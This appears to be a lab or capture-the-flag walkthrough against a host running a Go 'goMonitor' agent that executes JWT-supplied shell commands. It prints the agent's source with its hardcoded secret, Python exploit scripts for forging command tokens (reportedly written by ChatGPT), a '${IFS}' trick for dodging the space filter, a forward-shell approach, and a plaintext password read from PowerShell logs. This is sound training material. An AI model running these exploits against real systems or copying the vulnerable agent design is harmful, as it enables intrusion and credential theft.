









As usual we can start by using RUSTSCAN to check all the services alive on the TCP protocoll.

```
PORT     STATE SERVICE REASON         VERSION
3000/tcp open  ppp?    syn-ack ttl 64
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 401 Unauthorized
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 01 Jul 2024 10:21:37 GMT
|     Content-Length: 39
|     Required authorization token not found
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 401 Unauthorized
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 01 Jul 2024 10:21:06 GMT
|     Content-Length: 39
|_    Required authorization token not found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=7/1%Time=66828311%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x2
```

And do the same on the first 1k(ish) ports alive on the UDP protocoll via NMAP this time.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.1.22
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 12:09 CEST
Nmap scan report for 172.16.1.22
Host is up (0.00017s latency).
All 100 scanned ports on 172.16.1.22 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 20.10 seconds
```

&nbsp;

# Back on track

On the WS03 I found the source code of this application and starting by the README:

&nbsp;

```
C:\Projects\goMonitor> type README.md
# goMonitor

goMonitor is a powerful cross platform monitoring application that runs over HTTP.

# Agent

The Agent listens on HTTP and will execute anything the server sends to it.  It expects /exec/{Command Here}

# Server (Not Started Yet)

A website where administrators can create custom scripts and designate which agents to run them against.  

C:\Projects\goMonitor>
```

And the source code itself:

```
C:\Projects\goMonitor> type main.go
package main
import (
    "fmt"
    "os/exec"
    "strings"
    "net/http"

   "github.com/auth0/go-jwt-middleware"
   "github.com/dgrijalva/jwt-go"
    )

var secret = []byte("PSmu3dR2wMZQvNge")

var RunCmd = http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
    // Extract token from header
    var tokenstring string
    tokens, ok := r.Header["Authorization"]
    if ok && len(tokens) <= 2 {
    tokenstring = tokens[0]
    tokenstring = strings.TrimPrefix(tokenstring, "Bearer ")
    }

    // Extract cmd
    token, _ := jwt.Parse(tokenstring, func(token *jwt.Token) (interface{}, error) {
        return secret, nil
    })
    cmd := token.Claims.(jwt.MapClaims)["cmd"].(string)

    // Execute command
    // BUG: This only will work on linux, this was a hack to easily allow arguments to be sent.
    //      Unfortunately, it broke the code on Windows.  Either need to look into parsing
    //      arguments, or simply create an if/then to check for OS.
    // No command should contain a space.
    if strings.Contains(cmd, " ") {
        fmt.Fprintf(w, "Hacker Detected!")
    } else {
    // Execute command
        output, _ := exec.Command("sh","-c", cmd).Output()
        fmt.Fprintf(w, "%s", output)
    }
})

func main() {
    jwtMiddleware := jwtmiddleware.New(jwtmiddleware.Options{
    ValidationKeyGetter: func(token *jwt.Token) (interface{}, error) {
        return secret, nil
        },
    SigningMethod: jwt.SigningMethodHS256,
    })

    app := jwtMiddleware.Handler(RunCmd)
    http.ListenAndServe("0.0.0.0:3000", app)
}
```

Man I sniff here command injections?

&nbsp;

# Attacking the custom WEBAPP

Before anything we can see from the code the cookie that app requires in order to pass the check-in:



But I was wrong. apparently the app checks the command based on the JWT token and I asked to ChatGPT to prepare me a good python exploit:

```
import jwt
import requests

# Secret key
secret = "PSmu3dR2wMZQvNge"

# URL of the server
url = "http://172.16.1.22:3000/exec"

def send_command(cmd):
    # Create payload with command
    payload = {
        "cmd": cmd
    }

    # Generate JWT
    token = jwt.encode(payload, secret, algorithm="HS256")

    # Send request with Authorization header
    headers = {
        "Authorization": f"Bearer {token}"
    }

    response = requests.get(url, headers=headers)
    return response.text

# Run loop for continuous command input
while True:
    cmd = input("Enter the command to execute (or type 'exit' to quit): ")
    if cmd.lower() == 'exit':
        print("Exiting.")
        break
    
    try:
        result = send_command(cmd)
        print("Output:\n", result)
    except Exception as e:
        print("An error occurred:", e)
```

And running the script we can appure that the script is running as JOE on the server name WEB-NIX02:



But if i want to gain a revshell I see it is blocking my commands:



And seems like it complains with spaces? This can be easily bypassed by using `${IFS}`



And it works:



To make it easier for me I asked again to chatgpt to replace all my input commands spaces witth the bypass I got:

```
import jwt
import requests

# Secret key
secret = "PSmu3dR2wMZQvNge"

# URL of the server
url = "http://172.16.1.22:3000/exec"

def send_command(cmd):
    # Replace spaces with ${IFS}
    transformed_cmd = cmd.replace(" ", "${IFS}")

    # Create payload with transformed command
    payload = {
        "cmd": transformed_cmd
    }

    # Generate JWT
    token = jwt.encode(payload, secret, algorithm="HS256")

    # Send request with Authorization header
    headers = {
        "Authorization": f"Bearer {token}"
    }

    response = requests.get(url, headers=headers)
    return response.text

# Run loop for continuous command input
while True:
    cmd = input("Enter the command to execute (or type 'exit' to quit): ")
    if cmd.lower() == 'exit':
        print("Exiting.")
        break
    
    try:
        result = send_command(cmd)
        print("Output:\n", result)
    except Exception as e:
        print("An error occurred:", e)
```

Seems like joe have some ssh keys? This might be good so we don't need to craft a revshell...



But he have no keys:



But I see that this is a SSH running from windows? I can grab another flag:

```
Enter the command to execute (or type 'exit' to quit): cat /home/joe/Desktop/flag.txt
Output:
 OFFSHORE{Pr0t3ct_Th05e_5ecr3ts}

Enter the command to execute (or type 'exit' to quit):
```

Checking the interfaces I see that this might be a docker istance?

```
Enter the command to execute (or type 'exit' to quit): ip a
Output:
 1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:94:a3:cc brd ff:ff:ff:ff:ff:ff
    inet 172.16.1.22/24 brd 172.16.1.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe94:a3cc/64 scope link 
       valid_lft forever preferred_lft forever
3: lxcbr0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default qlen 1000
    link/ether 00:16:3e:00:00:00 brd ff:ff:ff:ff:ff:ff
    inet 10.0.3.1/24 scope global lxcbr0
       valid_lft forever preferred_lft forever
```

Unfortunately I am not able to gain a revshell so I will have to come back later, specifically only the port 3000 is accessible so i guess I need to reach this by other means.

&nbsp;

# Missing Root? Might need to come back later

For this specific part I got an insider tips the reason why none of my shell attempts worked is caused by the firewall and the solution to this was using a forward shell instead. Reference: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#forward-shell

I used this to gain a "pseudo" shell:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# cat script3.py                                                
import jwt
import httpx

def execute(command: str, timeout: float = None) -> str:
    # Generate JWT Token embedding the command, using space-to-${IFS} substitution for command execution
    token = jwt.encode(
        {"cmd": command.replace(" ", "${IFS}")}, "PSmu3dR2wMZQvNge", algorithm="HS256"
    )

    response = httpx.get(
        url="http://172.16.1.22:3000/exec",
        headers={"Authorization": f"Bearer {token}"},
        timeout=timeout,
        # ||BURP||
        verify=False,
    )

    # Check if the request was successful
    response.raise_for_status()

    return response.text
```



And immediately I see he is part of sudo users?

But then I had to use the upgrade to tty via python3.

But if I run sudo -l it keeps asking me for the password so here it is about checking the permissions and joe is part of ADM group:

```
[Toboggan] (joe@nix02)-[/]$ id
uid=1000(joe) gid=1000(joe) groups=1000(joe),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
[Toboggan] (joe@nix02)-[/]$
```

This mean he can read all the logs under /var/log, can we see some passwords there maybe? I tried already aureport --tty but no passwords were saved there yet.

```
[Toboggan] (joe@nix02)-[/]$ ls -al /var/log
total 2044
drwxrwxr-x  14 root              syslog            4096 Jul  6 00:05 .
drwxr-xr-x  14 root              root              4096 Jul 24  2018 ..
-rw-r--r--   1 root              root                 0 Nov 10  2023 alternatives.log
-rw-r--r--   1 root              root              7752 Nov  9  2023 alternatives.log.1
-rw-r--r--   1 root              root              1329 Jun 20  2022 alternatives.log.2.gz
-rw-r--r--   1 root              root              1415 Feb  4  2020 alternatives.log.3.gz
-rw-r--r--   1 root              root              3336 Aug 18  2018 alternatives.log.4.gz
drwxr-xr-x   2 root              root              4096 Nov 10  2023 apt
drwxr-x---   2 root              adm               4096 Jun 20  2022 audit
-rw-r-----   1 syslog            adm               3432 Jul  6 03:57 auth.log
-rw-r-----   1 syslog            adm               3403 Jul  5 23:24 auth.log.1
-rw-r-----   1 syslog            adm               2693 Dec 11  2023 auth.log.2.gz
-rw-r-----   1 syslog            adm                600 Nov  4  2023 auth.log.3.gz
-rw-r-----   1 syslog            adm                534 Nov  3  2023 auth.log.4.gz
-rw-------   1 root              root             64288 Aug  3  2022 boot.log
-rw-r--r--   1 root              root             56751 Jul 24  2018 bootstrap.log
-rw-rw----   1 root              utmp                 0 Jul  5 23:29 btmp
-rw-rw----   1 root              utmp                 0 Dec 11  2023 btmp.1
drwxr-xr-x   2 root              root              4096 Jul  6 00:05 cups
drwxr-xr-x   2 root              root              4096 Jul 15  2018 dist-upgrade
-rw-r--r--   1 root              root                 0 Nov 10  2023 dpkg.log
-rw-r--r--   1 root              root            244676 Nov  9  2023 dpkg.log.1
-rw-r--r--   1 root              root               388 Jul 12  2022 dpkg.log.2.gz
-rw-r--r--   1 root              root             34068 Jul 12  2022 dpkg.log.3.gz
-rw-r--r--   1 root              root               337 Feb  5  2020 dpkg.log.4.gz
-rw-r--r--   1 root              root             42313 Feb  4  2020 dpkg.log.5.gz
-rw-r--r--   1 root              root            101981 Aug 18  2018 dpkg.log.6.gz
-rw-r--r--   1 root              root             32032 Aug 18  2018 faillog
-rw-r--r--   1 root              root              5784 Nov  9  2023 fontconfig.log
drwx--x--x   2 root              gdm               4096 Jun 13  2018 gdm3
-rw-r--r--   1 root              root              1167 Jul  5 23:24 gpu-manager.log
drwxr-xr-x   3 root              root              4096 Jul 24  2018 hp
drwxrwxr-x   2 root              root              4096 Aug 18  2018 installer
drwxr-sr-x+  3 root              systemd-journal   4096 Aug 18  2018 journal
-rw-r-----   1 syslog            adm              43026 Jul  6 04:05 kern.log
-rw-r-----   1 syslog            adm             312797 Jul  5 23:28 kern.log.1
-rw-r-----   1 syslog            adm              52084 Dec 11  2023 kern.log.2.gz
-rw-r-----   1 syslog            adm               2688 Nov  4  2023 kern.log.3.gz
-rw-r-----   1 syslog            adm              21740 Nov  3  2023 kern.log.4.gz
-rw-rw-r--   1 root              utmp            292292 Jun 20  2022 lastlog
drwxr-xr-x   2 root              root              4096 Aug  1  2018 lxc
drwxr-xr-x   2 root              root              4096 Jun  5  2018 lxd
-rw-r--r--   1 root              root            451800 Jul  7  2022 powershell.log
drwx------   2 speech-dispatcher root              4096 Apr 23  2018 speech-dispatcher
-rw-r-----   1 syslog            adm              39449 Jul  6 04:05 syslog
-rw-r-----   1 syslog            adm               8216 Jul  6 00:05 syslog.1
-rw-r-----   1 syslog            adm              66782 Jul  5 23:29 syslog.2.gz
-rw-r-----   1 syslog            adm              67717 Dec 11  2023 syslog.3.gz
-rw-r-----   1 syslog            adm              29349 Nov 10  2023 syslog.4.gz
-rw-r-----   1 syslog            adm               2918 Nov  9  2023 syslog.5.gz
-rw-r-----   1 syslog            adm               2847 Nov  8  2023 syslog.6.gz
-rw-r-----   1 syslog            adm               2952 Nov  7  2023 syslog.7.gz
-rw-------   1 root              root             64064 Aug 18  2018 tallylog
-rw-r--r--   1 root              root                 0 Jul  5 23:29 ubuntu-advantage.log
-rw-r--r--   1 root              root              4095 Jul  5 23:24 ubuntu-advantage.log.1
-rw-r--r--   1 root              root               835 Dec 11  2023 ubuntu-advantage.log.2.gz
-rw-r--r--   1 root              root               654 Nov  9  2023 ubuntu-advantage.log.3.gz
-rw-r--r--   1 root              root                 0 Dec 11  2023 ubuntu-advantage-timer.log
-rw-r--r--   1 root              root              2370 Nov  9  2023 ubuntu-advantage-timer.log.1
-rw-r--r--   1 root              root               146 Nov  3  2023 ubuntu-advantage-timer.log.2.gz
-rw-r--r--   1 root              root               114 Aug  1  2022 ubuntu-advantage-timer.log.3.gz
-rw-r--r--   1 root              root               373 Jul 31  2022 ubuntu-advantage-timer.log.4.gz
-rw-r-----   1 syslog            adm              43026 Jul  6 04:05 ufw.log
-rw-r-----   1 syslog            adm              23076 Jul  5 23:28 ufw.log.1
-rw-r-----   1 syslog            adm               8585 Dec 11  2023 ufw.log.2.gz
-rw-r-----   1 syslog            adm               2336 Nov  4  2023 ufw.log.3.gz
-rw-r-----   1 syslog            adm                914 Nov  3  2023 ufw.log.4.gz
drwxr-x---   2 root              adm               4096 Jul  5 23:29 unattended-upgrades
-rw-r--r--   1 root              root               644 Aug 19  2018 vmware-network.1.log
-rw-r--r--   1 root              root               644 Aug 19  2018 vmware-network.2.log
-rw-r--r--   1 root              root               664 Aug 19  2018 vmware-network.3.log
-rw-r--r--   1 root              root               644 Aug 19  2018 vmware-network.4.log
-rw-r--r--   1 root              root               664 Aug 19  2018 vmware-network.5.log
-rw-r--r--   1 root              root              3817 Aug 18  2018 vmware-network.6.log
-rw-r--r--   1 root              root               644 Aug 18  2018 vmware-network.7.log
-rw-r--r--   1 root              root              3817 Aug 18  2018 vmware-network.8.log
-rw-r--r--   1 root              root               644 Aug 18  2018 vmware-network.9.log
-rw-r--r--   1 root              root               644 Aug 19  2018 vmware-network.log
-rw-r--r--   1 root              root              2131 Aug 19  2018 vmware-vmsvc.1.log
-rw-r--r--   1 root              root              1964 Aug 19  2018 vmware-vmsvc.2.log
-rw-r--r--   1 root              root              2326 Aug 19  2018 vmware-vmsvc.3.log
-rw-r--r--   1 root              root              2025 Oct 30  2018 vmware-vmsvc.log
-rw-------   1 root              root              1987 Dec 11  2023 vmware-vmsvc-root.1.log
-rw-------   1 root              root              1812 Dec 11  2023 vmware-vmsvc-root.2.log
-rw-------   1 root              root              1812 Nov 10  2023 vmware-vmsvc-root.3.log
-rw-------   1 root              root              1293 Jul  5 23:20 vmware-vmsvc-root.log
-rw-------   1 root              root              8700 Jul  5 23:20 vmware-vmtoolsd-root.log
-rw-rw-r--   1 root              utmp                 0 Jul  5 23:29 wtmp
-rw-rw-r--   1 root              utmp              2304 Jul  5 23:24 wtmp.1
```

And here I got another tips to look for the powershell logs there it might be some juicy stuff:

```
[Toboggan] (joe@nix02)-[/]$ cat /var/log/powershell.log | grep "joe"
Jul  4 16:47:58 NIX02 powershell[495674]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 9dc01674-8979-4ba1-83cf-9ab2bb7b72ca#012Path: 
Jul  4 17:36:08 NIX02 powershell[496430]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012invoke-command -computername 192.168.24.89 -scriptblock {c:\users\joe\desktop\get-logs.ps1 -name joe -p HWaKJkUFgRe56WzG} -credential (Get-Credential)#012#012ScriptBlock ID: 012e044e-199c-47af-9680-9a8e876b5597#012Path: 
Jul  4 17:37:04 NIX02 powershell[496430]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 7ecd6d96-d3af-4577-bd52-04c710f46fa0#012Path: 
Jul  4 19:04:25 NIX02 powershell[496430]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 2ec21de4-9d5e-4a56-b2c5-b073102f1690#012Path: 
Jul  4 19:47:49 NIX02 powershell[497852]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 4694d17d-7605-493c-851d-8ad3d0e6d20c#012Path: 
Jul  4 19:49:12 NIX02 powershell[498031]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 650430b6-e1a1-4d9a-904f-5707478cffcc#012Path: 
Jul  4 20:29:09 NIX02 powershell[498031]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 1eecc01a-5b81-46b4-bb4b-80fda4d96230#012Path: 
Jul  4 20:30:01 NIX02 powershell[498031]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 2173adbc-f323-4918-b306-864c4dd463b3#012Path: 
Jul  4 20:30:15 NIX02 powershell[498031]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 8de7cd6d-d658-4874-b5ea-c5f636a12eea#012Path: 
Jul  4 20:30:28 NIX02 powershell[498031]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 59cdbc0d-97e6-4f10-aa5d-e145411471fe#012Path: 
Jul  4 20:31:43 NIX02 powershell[498506]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 5f17fb3e-a81c-413e-8634-5fd0c3844620#012Path: 
Jul  4 20:51:38 NIX02 powershell[498506]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 8af638b0-16aa-4517-82a8-dca0c6f56a3c#012Path: 
Jul  4 20:54:08 NIX02 powershell[498506]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 74c690f8-4afe-4e39-862e-7b502728efdb#012Path: 
Jul  4 21:08:43 NIX02 powershell[498956]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 0a6575ff-197c-4ea4-931c-7a12d255b386#012Path: 
Jul  4 21:11:14 NIX02 powershell[498956]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: b8476a43-c1f5-43c1-b7b7-a03b064028d3#012Path: 
